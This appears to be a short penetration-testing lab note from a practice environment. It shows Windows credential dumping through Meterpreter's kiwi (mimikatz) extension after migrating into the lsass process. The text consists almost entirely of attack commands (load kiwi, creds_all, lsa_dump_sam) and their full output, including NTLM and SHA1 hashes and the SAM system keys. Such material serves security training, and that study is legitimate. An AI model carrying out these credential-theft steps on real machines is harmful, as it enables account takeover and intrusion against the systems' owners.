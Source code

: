 

**Dumping Hashes With kiwi**

load kiwi to meterpreter shell after migrating with lsass process and get high privileges

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.


meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain         NTLM                              SHA1
--------       ------         ----                              ----
Administrator  ATTACKDEFENSE  e3c61a68f1b89ee6c8ba9507378dc88d  fa62275e30d286c09d30d8fece82664eb34323ef

wdigest credentials
===================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
ATTACKDEFENSE$  WORKGROUP      (null)
Administrator   ATTACKDEFENSE  (null)

kerberos credentials
====================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
Administrator   ATTACKDEFENSE  (null)
attackdefense$  WORKGROUP      (null)

==============================================================================================================================
==============================================================================================================================

meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

```